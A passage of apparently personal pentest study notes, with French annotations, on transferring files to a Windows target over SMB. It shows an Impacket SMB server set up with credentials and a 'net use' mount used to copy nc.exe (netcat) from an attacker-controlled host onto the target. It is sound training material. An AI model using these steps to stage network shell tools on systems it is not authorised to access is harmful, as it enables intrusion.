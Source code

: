 New versions of Windows block unauthenticated guest access, as we can see in the following command:

{% code overflow="wrap" fullWidth="true" %}
```powershell
C:\htb> copy \\192.168.220.133\share\nc.exe

You can't access this shared folder because your organization's security policies block unauthenticated guest access. These policies help protect your PC from unsafe or malicious devices on the network.
```
{% endcode %}

To transfer files in this scenario, we can set a username and password using our Impacket SMB server and mount the SMB server on our windows target machine:

<mark style="color:orange;">**Create the SMB Server with a Username and Password**</mark>

{% code overflow="wrap" fullWidth="true" %}
```bash
mrroboteLiot@htb[/htb]$ sudo impacket-smbserver share -smb2support /tmp/smbshare -user test -password test

Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{% endcode %}

<mark style="color:orange;">**Mount the SMB Server with Username and Password**</mark>

{% code fullWidth="true" %}
```powershell
C:\htb> net use n: \\192.168.220.133\share /user:test test

The command completed successfully.

C:\htb> copy n:\nc.exe
        1 file(s) copied.
```
{% endcode %}

Note: You can also mount the SMB server if you receive an error when you use \`copy filename \\\IP\sharename\`.

{% hint style="warning" %}
1\. **Commande `copy \\192.168.220.133\share\nc.exe`** :

Cette commande tente de **copier un fichier** situé sur un partage réseau SMB.

* **`copy`** : La commande `copy` est utilisée pour copier des fichiers d'un emplacement à un autre.
* **`\\192.168.220.133\share\nc.exe`** : Ici, tu spécifies directement l'adresse du fichier à copier depuis un **partage réseau SMB**. L'IP `192.168.220.133` est l'adresse du serveur qui héberge le partage, et `share` est le nom du dossier partagé. Le fichier `nc.exe` est le fichier que tu veux copier.
